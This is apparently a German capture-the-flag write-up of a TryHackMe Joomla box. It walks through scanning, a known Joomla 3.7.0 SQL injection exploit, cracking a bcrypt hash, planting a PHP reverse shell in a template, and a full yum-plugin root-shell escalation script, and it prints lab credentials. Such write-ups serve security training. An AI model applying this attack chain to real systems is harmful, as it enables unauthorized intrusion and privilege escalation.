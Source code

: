 # Ziel 10.10.126.91

# Scanning
## Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
MAC Address: 02:4F:86:41:03:09 (Unknown)

```
-> Website Vorhanden 
-> Maria db offen verfügbar?
# Enumeration
# Gobuster 

```
[+] Url:                     http://10.10.126.91
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.126.91/images/]
/media                (Status: 301) [Size: 234] [--> http://10.10.126.91/media/]
/templates            (Status: 301) [Size: 238] [--> http://10.10.126.91/templates/]
/modules              (Status: 301) [Size: 236] [--> http://10.10.126.91/modules/]
/bin                  (Status: 301) [Size: 232] [--> http://10.10.126.91/bin/]
/plugins              (Status: 301) [Size: 236] [--> http://10.10.126.91/plugins/]
/includes             (Status: 301) [Size: 237] [--> http://10.10.126.91/includes/]
/language             (Status: 301) [Size: 237] [--> http://10.10.126.91/language/]
/components           (Status: 301) [Size: 239] [--> http://10.10.126.91/components/]
/cache                (Status: 301) [Size: 234] [--> http://10.10.126.91/cache/]
/libraries            (Status: 301) [Size: 238] [--> http://10.10.126.91/libraries/]
/tmp                  (Status: 301) [Size: 232] [--> http://10.10.126.91/tmp/]
/layouts              (Status: 301) [Size: 236] [--> http://10.10.126.91/layouts/]
/administrator        (Status: 301) [Size: 242] [--> http://10.10.126.91/administrator/]
/cli                  (Status: 301) [Size: 232] [--> http://10.10.126.91/cli/]
Progress: 218275 / 218276 (100.00%)

```

-> Adminportal? -> Joomla CMS

# SQLI versuch 

Aufgrund dessen das ich ein Admin Portal, eine Login maske auf der Normalen seite ud bekannterweise eine Maria db habe habe ich versucht via SQLi zugriff zu erhalten 

ohne Erfolg

# Weitere Enumeration 

Um vielleicht einen Exploit zu Finden habe ich in Google geschaut ob ich irgendwie die Version des CMS herausbekomme ohne angemeldet zu sein, und siehe da eine der Antworten beinhaltete das es über den Pfad "/administrator/manifests/files/joomla.xml" möglich ist und siehe da auf dem Ziel läuft Joomla CMS Version 3.7.0

# Exploiting 

Hier habe ich durch Searchsploit einen Exploit für Joomla 3.7.0 gefunden "# Joomla! 3.7.0 - 'com_fields' SQL Injection" alias " EDB-ID: 42033"

Nach etwas Rumexperimentieren habe ich diesen nicht zum laufen bekommen- 

Daraufhin habe ich weiter geschaut ob es vllt alternativen gibt und bin auf Github fündig geworden 

https://github.com/XiphosResearch/exploits/tree/master/Joomblah

Diesen habe ich dann geladen und ausgeführt und einen PW Hash und username bekommen

Screenshot da mir die Attackbox gestorben ist :(

https://imgur.com/hdpDqNb

Da wir jetzt einen PW hash haben müssen wir den auch knacken 

Tatsächlich kennt Hash.com den Hash bereits und kann ihn lösen. Das ist aber Langweilig. 

Via https://www.tunnelsup.com/hash-analyzer/

Bekommen wir dann die Info das es bcrypt ist was dann zu "--format=bcrypt" bei john the Ripper Corespondiert

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

nach einer kurzen zeit bekommen wir dann auch das PW: spiderman123

Username: jonah
Passoword: spiderman123
Email: jonah@tryhackme.com

Nach dem Anmelden können wir uns etwas umschauen. Am Intressantesten scheinen die Templates, da wir hier Custom php code laden können. Ich nutze hier das beez3 Template und die Pentestmonkey revshell

Hier passe ich die Index.html an und füge die Revshell ein. Starte einen listener und speicher die index.html. Danach lasse ich mir die Vorschau anzeigen und erhalte meine Rev shell

# Priv Escalation

Nachdem ich bei den üblichen sachen (SUID, Crontabs, etc ) nichts gefunden habe habe ich mich etwas auf dem Server umgeschaut und habe was intressantes unter /var/www/html gefunden undzwar in der "configuration.php" sind logindaten hinterlegt 

```
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
```

Versuch bei Root anzumelden -> Ohne erfolg 
Allerdings kennen wir User "Jjameson" aus dem /home Verzeichniss -> loginversuch mit dem PW -> Erfolg



## Auf Root
Da wir jetzt einen neuen user haben geht das Spiel von Forne los mit der Enumeration 

Cool wir werden auf anhieb fündig. Wir können yum mit root rechten ausführen

```
[jjameson@dailybugle ~]$ sudo -l
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```

Also schauen auf gtfobins.github.io was wir damit anstellen können

daraufhin finden wir 

```

TF=$(mktemp -d)

cat >$TF/x<<EOF

[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF

[main]
enabled=1
EOF

cat >$TF/y.py<<EOF

import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```


Das Führen wir genauso aus und Tadaa wir haben root

